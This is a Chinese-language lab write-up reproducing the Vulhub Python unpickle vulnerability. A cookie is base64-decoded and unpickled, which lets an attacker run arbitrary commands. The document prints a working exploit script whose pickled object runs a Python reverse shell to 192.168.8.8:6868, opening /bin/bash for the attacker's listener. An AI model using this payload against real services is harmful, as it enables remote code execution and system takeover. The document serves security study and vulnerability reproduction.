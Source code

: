 # Python unpickle 造成任意命令执行漏洞



| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 |                                      |
| 漏洞名称 | Python unpickle 造成任意命令执行漏洞 |
| 漏洞评级 |                                      |
| 影响范围 |                                      |
| 漏洞描述 |                                      |
| 修复方案 |                                      |



### 1.1、漏洞描述

序列化

    把对象（变量）从内存中变成可存储或传输的过程称为序列化，在Python中叫pickling
    序列化优点：
    持久保存状态：内存是无法永久保存数据的，当程序运行了一段时间，我们断电或者重启程序，内存中关于这个程序的之前的一段数据（有结构）都被清空了，但是在断电或重启程序之前将程序当前内存中所有的数据都保存下来（保存到文件中），以便于后期程序执行能够从文件中载入之前的数据，然后继续执行
    跨平台数据数据交互：序列化时不仅可以把序列化后的内容写到磁盘，还可以通过网络传输到别的机器上，如果收发双方约定好使用一种序列化格式，那么便打破了平台/语言差异化带来的限制，实现了跨平台的数据交互
pickle模块只能用于python，并且可能不同版本的Python彼此都不兼容，因此，只能用Pickle保存不重要的数据。
 pickle的好处是，可以 存储python中的所有数据类型，包括对象，而json不可以

![image-20230911211122200](./imgs/image-20230911211122200.png)

**漏洞原理**：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/python/unpickle

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8000/`

显示`Hello {username}!`。username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

![image-20230911210121630](./imgs/image-20230911210121630.png)



#### 3、漏洞验证

直接利用vulhub自带的exp.py来复现，设置好参数后，运行脚本，可以反弹shell

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.8.8",6868));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.8.8:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

kali开启监听`6868`端口



![image-20230911211256161](./imgs/image-20230911211256161.png)